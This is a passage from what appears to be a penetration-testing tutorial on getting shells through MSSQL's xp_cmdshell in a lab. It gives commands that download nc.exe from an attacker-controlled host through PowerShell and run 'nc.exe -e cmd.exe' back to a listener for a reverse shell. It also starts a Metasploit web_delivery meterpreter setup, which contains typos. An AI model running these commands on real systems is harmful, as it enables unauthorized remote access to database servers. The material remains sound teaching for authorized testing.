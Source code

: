 set password Password@1

set cmd "ipconfig"

exploit

![](https://i0.wp.com/1.bp.blogspot.com/-y4TYgy-AyH4/YR_pv3uAFNI/AAAAAAAAyPs/R2pdKhHn9IgEf0FJfQ0ujb277YE0Qe_ngCLcBGAsYHQ/s16000/22.png?w=640&ssl=1)

**Netcat**

Here, we can use netcat to get a reverse connection on the target machine. To do so, we first need to transfer the netcat binary file to the Windows machine. For this, we will use the nc.exe executable. This file is located at **/usr/share/windows-binaries.** Then we can use the Python one-liner to create an HTTP service.

cd /usr/share/windows-binaries

ls -al

python -m SimpleHTTPServer 80

![](https://i0.wp.com/1.bp.blogspot.com/-Z9LefqgpLJE/YR_p1nURgJI/AAAAAAAAyPw/I2lTxfxsB0k8rxscpFy04mSyGfw5RkoPwCLcBGAsYHQ/s16000/30.png?w=640&ssl=1)

Here, the powershell.exe cmdlet invokes PowerShell and then uses the wget command to download netcat into the **C:/Users/Public** directory, which has access to write. Then we will use the XP command shell to execute the netcat binary to run cmd.exe. To the creating a reverse connection to the host Kali Machine on Port 4444.

xp_cmdshell "powershell.exe wget http://192.168.1.2/nc.exe -OutFile c:\\Users\Public\\nc.exe"

xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe 192.168.1.2 4444"

![](https://i0.wp.com/1.bp.blogspot.com/-mWlHw8tp3Uo/YR_p6A4AIEI/AAAAAAAAyP0/pikp__CUTNk-7E228CeWATBqdo----EpQCLcBGAsYHQ/s16000/31.png?w=640&ssl=1)

In Kali Linux, we have a netcat listener on port 4444; once the PowerShell command will execute as shown in the above screenshot, we will get the shell of the target machine.

nc -lvp 4444

whoami

                                      ![](https://i0.wp.com/1.bp.blogspot.com/-vpUE11Ic9iI/YR_qFUvb05I/AAAAAAAAyQA/MgZDMCYAmTcVHDYuNPKOWdRanJRHOdvkACLcBGAsYHQ/s16000/32.png?w=640&ssl=1)

**Crackmapexec**

Another method to get a reverse connection on the target machine from the MSSQL XP command Shell functionality is by using its ability to run system commands associated with the web_delivery payload. The process is quite simple; we use the exploit/multi/script/web_delivery exploit, set the target as the Windows machine then set the payload as windows/meterpeter/reverse_tcp. Then specify the localhost. Finally, we will run the exploit command.

use exploit/multi/script/web_delivery

set target 2

set payload windows/meterpreter/revese_tcp

set lhost 192.168.1.2
